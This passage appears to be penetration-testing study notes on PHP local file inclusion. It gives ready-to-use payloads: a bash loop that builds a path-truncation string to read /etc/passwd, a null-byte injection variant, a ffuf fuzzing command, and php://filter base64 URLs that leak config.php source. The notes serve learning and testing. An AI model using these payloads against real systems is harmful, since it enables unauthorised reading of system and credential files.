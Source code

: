 With a bash script we can easily reach 4096 characters:
```console
zero@pio$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
```

And then copy and paste in the url.
```
http://<ip>/index.php?language=non_existing_directory/../../../etc/passwd/././...
```

We need to calculate where it will truncate, to remove only `.php` and not the rest of our string.

#### Null Bytes 

PHP versions before 5.5 were vulnerable to **null byte injection**, which means that adding a null byte (`%00`) at the end of the string would terminate the string and not consider anything after it.

As simple as using `/etc/passwd%00`, the final string would be `/etc/passwd%00.php`. Anything after the null byte will be truncated.

## PHP Filters 

[PHP Wrappers](https://www.php.net/manual/en/wrappers.php.php) are a useful tool to test more options.

### Input Filters

[PHP Filters](https://www.php.net/manual/en/filters.php) are one of the PHP wrappers types. To use a wrapper we need to type `php://`, and the filters `php://filter/`.
We will use to parameter: **resource** and **read**. There are four types for filter:
- [String Filters](https://www.php.net/manual/en/filters.string.php)
- [Conversion Filters](https://www.php.net/manual/en/filters.convert.php)
- [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php)
- [Compression Filters](https://www.php.net/manual/en/filters.compression.php)

### Fuzzing for PHP Files

We will start fuzzing:
```console
zero@pio$ ffuf -c -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<ip>/FUZZ.php
```

### Source Code Disclosure 

Once we have a list of php files, we can start trying to read it. Let's take a `config.php` file:
```
php://filter/read=convert.base64-encode/resource=config
```
```
http://<ip>/index.php?language=php://filter/read=convert.base64-encode/resource=config
```

> Maybe we need to add `.php` at the end of the file name or not. It's depend on the web.
{: .prompt-tip}
